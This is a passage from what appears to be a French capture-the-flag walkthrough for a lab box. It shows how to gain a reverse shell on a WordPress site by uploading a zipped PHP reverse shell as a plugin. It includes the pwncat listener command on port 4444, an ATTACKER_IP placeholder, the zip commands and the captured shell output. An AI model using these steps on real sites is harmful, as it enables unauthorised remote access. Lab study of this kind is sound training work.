 N'oubliez pas de compléter les champs suivants : **ATTACKER_IP, PORT**

Ensuite, nous configurons notre écouteur pwncat pour obtenir un reverse shell propre et mis à niveau.

**Note :** Vous pouvez également utiliser netcat et le mettre à niveau vous-même en utilisant netcat et le lien suivant [Mettre à niveau un reverse shell](https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/) mais personnellement, je préfère utiliser pwncat

```bash
pwncat -lp 4444
```

Après cela, nous préparons notre fichier zip en respectant la structure suivante :

```
php-reverse-shell/
└── php-reverse-shell.php # Fichier malveillant
```

Nous pouvons le faire en utilisant les commandes suivantes

```bash
mkdir php-reverse-shell
mv php-reverse-shell.php php-reverse-shell/
zip -r php-reverse-shell.zip php-reverse-shell/
```

Maintenant que nous avons notre fichier zip, nous pouvons essayer de l’envoyer en tant que plugin.

<img src="./screenshots/5.png" width="80%">

Il semble que notre fichier ait été envoyé avec succès. Parfait !

Cliquez sur **Activer le plugin**

```bash
pwncat -lp 4444
[12:50:28] Welcome to pwncat 🐈! __main__.py:164
[13:13:44] received connection from 10.10.135.61:40554 bind.py:84
[13:13:46] 10.10.135.61:40554: registered new host w/ db manager.py:957
(local) pwncat$ # Utilisez CTRL + D pour interagir avec la machine cible
(remote) daemon@ip-10-10-135-61:/opt/bitnami/apps/wordpress/htdocs/wp-admin$

```
